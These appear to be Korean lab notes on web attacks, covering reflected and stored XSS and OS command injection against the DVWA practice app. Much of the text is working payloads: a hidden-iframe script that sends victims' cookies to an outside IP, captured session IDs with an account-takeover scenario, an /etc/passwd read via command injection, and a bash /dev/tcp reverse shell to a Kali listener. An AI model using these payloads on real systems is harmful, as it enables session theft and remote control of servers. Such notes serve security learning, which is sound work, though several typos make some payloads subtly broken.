

> Cross Site Scripting 취약점이 있는 웹사이트에 방문한 사용자의 웹 브라우저에서 악의적인 HTML 태그나 자바스크립트가 동작하는 공격이다. 악의적인 공격자가 작성한 스크립트 코드가 피해자의 시스템에서 실행되는 것.

**공격 목적**
- 쿠키 훔치기
- 악성 코드 주소로 이동
- 페이지 변조
- 피해 브라우저 제어

- [Common Payloads]()


---

## Reflected XSS

```tag
"><marquee>xss</marquee>
```

-  원리
> 경고 알림창을 띄우면 XSS 취약점 존재한다고 판정
```tag
"><script>alert("xss")</script>

<video scr="1" onerror=document.location="http://naver.com">
<iframe scr="https://121.190.160.232:81"> </iframe>
```

- 웹 서버에서 입력 받은 값을 서버에서 파라미터를 그대로 반환하며 발생
- 검색창 & 모든 파라미터를 대상으로 공격 가능
- 테이블의 구문을 파악 후 취약점 스캔

---

## Stored XSS

취약점이 있는 웹 서버에 악성 스크립트를 영구적으로 저장.


---

## 쿠키 탈취 공격

```txt
http://121.190.160.232:81/XSSAttack/attack_cookie.txt

"><script>alert(document.cookie)</script>
// ASPSESSIONIDCSTBCQTA=KACOEGOCFMJGLNBDJLCEKEEP

```


```txt
<script> document.write("<iframe scr=http://121.190.160.232:81/XSSAttack/1.asp?cookie" + document.cookie+" width =0 height =0 > </iframe>")</script>
```

```txt

-- 탈취된 쿠키값.
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
---------------------------------------
ASPSESSIONIDCSTBCQTA=HOONEGOCIKLNFDCEKHCCDNFH
---------------------------------------
ASPSESSIONIDCSTBCQTA=HOONEGOCIKLNFDCEKHCCDNFH
---------------------------------------
ASPSESSIONIDCSTBCQTA=GACOEGOCDGLKBECBNFANBGDN
```

**시나리오**
1. 사용자 게시판 접속
2. 쿠키 탈취되어 개별 txt에 쿠키 저장
3. 웹 서버에 다른 사용자 쿠키 값으로 변경 시 계정 탈취 가능

기존 로그인 정보값
- mmmm > asdqwe(hacker) 값으로 변경


---

## DVWA(XSS)

```php
"><marquee>test</marquee>
```

```php
# Reflected XSS Source

## vulnerabilities/xss_r/source/low.php

|   |
|---|
|`<?php      header ("X-XSS-Protection: 0");  //HTTP XSS 기능 비활성화 명령어 header
    // Is there any input?   if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {    // Feedback for end user    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';   }      ?>   `|

```

**공격 시나리오**
- `$_GET` 이후 아무런 조치 없이 모든 input 값에 대하여 서버에 검증하는 도구도 없기 때문에 위에 기술된 공격 내용이 모두 적용된다.
- Medium 방식도 단순하게 `<script> 문자열을 포함`하는 string 값에 대한 처리만 이루어지기 때문에 이외 모든 공격이 가능하다.
- Impossible 값에도 비슷하게 ` checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );`에 대한 처리가 이루어지지만 사실상 특수문자를 기입하게 되면 그대로 XSS 공격이 가능하기 때문에 좋은 방어책이 아니게 보인다.


---
## Document Object Model
- innetHTML , document.write()
- textContent innerText
>html 코드나 javascript 중 문자열 화면에 출력하는 메서드


OS command injection
사용자 입력값이 어플리케이션의 운영체제 명령어 실행 가능

**리눅스**
; 앞의 명령어가 끝나면 뒤 명령어가 실행되는 특수문자
& 앞의 명령어를 백그라운드로 실행하고 바로 뒤의 명령을 실행
&& 앞 명령어 성공 시 뒤 명령어를 실행
| 앞 명령어 출력을 뒤 명령어 input 값으로 넘김
|| 앞 명령어 실패 시 뒤 명령어를 실행


**윈도우**
& 앞 명령어가 끝나면 뒤 명령어를 실행하는 특수 문자
&& 앞 명령이 성공하면 뒤 명령어 실행
| 앞 명령어 출력을 뒤 명령어 input 값으로 넘김
|| 앞 명령어 실패 시 뒤 명령어를 실행
 

공격 실행 1.
 - (ip ); /cat/etc/passwd


공격 실행 2.

kali linux 환경
```bash
ip a
ping 8.8.8.8
nc -lvnp 4444 //Listening 4444 port open

192.168.63.133(kali linux ip)
```

DVWA command injection prompt
```
127.0.0.1; bash -i >&/dev/tcp/192.168.63.133/444 0 >&1
```